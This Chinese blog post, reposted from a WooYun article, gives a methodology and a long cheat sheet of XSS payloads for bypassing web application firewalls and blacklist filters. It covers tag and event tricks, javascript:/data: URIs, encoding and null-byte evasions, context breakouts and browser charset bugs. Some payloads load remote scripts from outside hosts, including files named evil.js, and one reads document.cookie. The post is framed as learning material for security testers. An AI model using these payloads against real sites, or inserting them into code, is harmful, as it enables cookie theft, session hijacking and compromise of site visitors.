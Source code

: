 ```yaml
---
layout:     post
title:      Bypass xss 过滤的测试方法
date: 2014-09-15 11:11:00
tag: xss
description:
---
```

#### 0x00 背景

本文来自于《Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters》其中的bypass xss过滤的部分，前面有根据WAF特征确定是哪个WAF的测试方法给略过了，重点来看一下后面绕xss的一些基本的测试流程，虽说是绕WAF的，但这里还是根据WAF中的正则缺陷来绕过测试方法，并不是协议上问题，所以呢，基本可以通用于其他xss过滤的场景。方便新手们比较快速的了解到测试xss的一些基本的方法。

#### 0x01 Bypassing黑名单

大多数的场所是用的黑名单来做过滤器的，有三种方式绕过黑名单的测试：

- 1、暴力测试（输入大量的payload，看返回结果）
- 2、根据正则推算
- 3、利用浏览器bug

- 1)尝试插入比较正常的HTML标签，例如：<b>，<i>，<u>来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

- 2)尝试插入不闭合的标签，例如：<b，<i，<u，<marquee然后看一下返回响应，是否对开放的标签也有过滤。

- 3)然后测试几个XSS的payload，基本所有的xss过滤器都会进行过滤的：
    ```
    <script>alert(1);</script>
    <script>prompt(1);</script>
    <script>confirm(1);</script>
    <scriptsrc="http://rhainfosec.com/evil.js">
    ```
看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert,prompt,confirm字符，再尝试大小写的组合：
```
<scRiPt>alert(1);</scrIPt>
```
4)如果过滤器仅仅是把<script>和</script>标签过滤掉，那么可以用
```
<scr<script>ipt>alert(1)</scr<script>ipt>
```
的方式来绕过，这样当<script>标签被过滤掉，剩下的组合起来刚好形成一个完整的payload。

5)用<a href标签来测试，看返回响应
```
<a href="http://www.google.com">Clickme</a>
```
<a标签是否被过滤 href是否被过滤 href里的数据是否被过滤

如果没有数据被过滤，插入javascript协议看看：
```
<a href="javascript:alert(1)">Clickme</a>
```
是否返回错误 javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符 尝试下大小写转换

继续测试事件触发执行javascript：
```
<a href="rhainfosec.com" onmouseover=alert(1)>ClickHere</a>
```
看onmouseover事件是否被过滤。测试一个无效的事件，看过滤规则：
```
<a href="rhainfosec.com" onclimbatree=alert(1)>ClickHere</a>
```
是完整的返回了呢，还是跟onmouseover一样被干掉了。

如果是完整的返回的话呢，那么意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件测试一个很少见的事件：
```
<body/onhashchange=alert(1)><a href=#>clickit
```
测试其他标签

接下来测试其他的标签跟属性

Src属性
```
<img src=x onerror=prompt(1);>
<img/src=aaa.jpg onerror=prompt(1);>
<video src=x onerror=prompt(1);>
<audio src=x onerror=prompt(1);>
```
iframe标签
```
<iframe src="javascript:alert(2)">
<iframe/src="data:text/html;	base64
,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
```

embed标签
```
<embed/src=//goo.gl/nlX0P>
```

action属性

利用<form，<isindex等标签中的action属性执行javascript
```
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j	a	vas	c	r	ipt:alert(1) type=image>
<isindex action=data:text/html, type=image>
<formaction='data:text/html,<script>alert(1)</script>'><button>CLICK
```

formaction属性
```
<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript:alert(1)>CLICKME
```

background属性
```
<table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效
```
poster属性
```
<video poster=javascript:alert(1)//></video> // Opera 10.5以下有效
```
data属性
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P?
```
code属性
```
<applet code="javascript:confirm(document.cookie);"> // Firefox有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">
```
最短的测试向量
```
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8有效
```

过滤括号的情况下

当括号被过滤的时候可以使用throw来绕过
```
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```

以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：
```
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```
expression属性
```
<img style="xss:expression(alert(0))"> // IE7以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
```
location属性
```
<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123
```
其他的一些payload
```
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript:alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg>
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg>
<meta content="
 1
;JAVASCRIPT: alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click
<img src=1 onerror="s=document.createElement('script');s.src='//7sbs9y.com1.z0.glb.clouddn.com/evil.js';document.body.appendChild(s);"
```
当= ( ) ; :被过滤时
```
<svg><script>alert(/1/)</script> // 通杀所有浏览器
```
opera中可以不闭合
```
<svg><script>alert( 1) // Opera可查
```
很多情况下WAF会实体编码用户的输入数据，

javascript是一个很灵活的语言，可以使用很多编码，比如十六进制，Unicode和HTML。但是也对这些编码可以用在哪个位置有规定：
```
href=
action=
formaction=
location=
on*=
name=
background=
poster=
src=
code=
```
支持的编码方式：HTML，八进制，十进制，十六进制和Unicode

data=
支持的编码：base64

基于上下文的过滤

WAF最大的问题，在于不知道输出的位置的上下文，导致根据具体环境可以绕过。

输入在属性里
```
<input value="XSStest" type=text>
```
可控位置为XSStest，可以使用
```
"><img src=x onerror=prompt(0);>
```
如果< >被过滤的话可以换成
```
" autofocus onfocus=alert(1)//
```
同样还有很多其他的payload：
```
"onmouseover=" prompt(0)x="
"onfocusin=alert(1) autofocusx="
" onfocusout=alert(1) autofocus x="
"onblur=alert(1) autofocusa="
```
输入在script标签中
```
<script>
Var x="Input";
</script>
```
可控位置在Input，可以闭合script标签插入代码，但是同样我们仅仅闭合双引号就可以执行js代码了
```
";alert(1)//
```
最终结果就是
```
<script>
Var x="";alert(1)//
</script>
```
非常规的事件监听
```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
```
下面是一些相同的类：
```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified
```

HREF内容可控
```
<a href="Userinput">Click</a>
```

可控的是Userinput那里我们需要做的只是把javascript代码输入就好了：
```
javascript:alert(1)//
```
最后组合为：
```
<a href="javascript:alert(1)//">Click</a>
```
使用HTML实体URL编码绕过黑名单，href里会自动实体解码，如果都失败了，可以尝试使用vbscript在IE10以下都有效，或者使用data协议。

JavaScript变换

使用javascript协议时可使用的例子：
```
javascript:alert(1)
javaSCRIPT:alert(1)
JaVaScRipT:alert(1)
javas	cript:\u0061lert(1);
javascript:\u0061lert(1)
javascript:alert(document.cookie)
```
Vbscript变换
```
vbscript:alert(1);
vbscript:alert(1);
vbscr	ipt:alert(1)"
```
Data URl
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
当你的输入会在encodeURIComponent当中显示出来的时候，很容易插入xss代码了

```encodeURIComponent('userinput')```

userinput处可控，测试代码：
```
-alert(1)-
-prompt(1)-
-confirm(1)-
```
最终结果：
```
encodeURIComponent("-alert(1)-")
encodeURIComponent("-prompt(1)-")
```
SVG标签

当返回结果在svg标签中的时候，会有一个特性
```
<svg><script>varmyvar="YourInput";</script></svg>
```
YourInput可控，输入
```
www.site.com/test.php?var=text";alert(1)//
```
如果把"编码一些他仍然能够执行:
```
<svg><script>varmyvar="text";alert(1)//";</script></svg>
```
浏览器bug

字符集的bug在IE中出现过很多次，第一个就是UTF-7，但是这个只在之前的版本中可用，现在讨论一个在现在的浏览器当中可以执行的javascript。

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
这个页面当中我们可控当前页面的字符集，当我们常规的测试时：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v="><img src=x onerror=prompt(0);>
返回结果可以看到双引号被编码了：
```
<html>
<meta charset="utf-8"></meta>
<body>
<input type="text" value=""><img src=x onerror=prompt(0);>"></input>
</body>
</html>
设置字符集为UTF-32：

http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```
上面这个在IE9及以下版本可以执行成功。

利用0字节绕过：
```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```
在IE9及以下版本有效。

其他等等一系列浏览器特性的XSS可以参考以下文章：

http://drops.wooyun.org/tips/147

增加了一个比较好玩的 payload :
```
<img src=1 onerror="s=document.createElement('script');s.src='//7sbs9y.com1.z0.glb.clouddn.com/evil.js';document.body.appendChild(s);"
```
再新增了一个：
```
<awesome id="lol" onfocus="alert(1)" tabindex=0>
```
通过这个技巧可以在任何标签（包括未知标签）内实现无需交互的XSS攻击（在Firefox以外的浏览器有效）

#### 0x02 总结

本文主要是一个测试XSS的思路流程，并没有把所有的payload写全，其实也没有人能够写全，只是列了一个大体的框架，大家实际在寻找的过程中可以不断慢慢的根据这种思路补充自己的payload，想必呢，一定会有很大的进步的！~



原文 http://drops.wooyun.org/tips/845  乌云上的老文章了，因为有时候一些记不住，转载过来只为学习使用

另外推荐一篇整理的也不错 http://insight-labs.org/?p=533


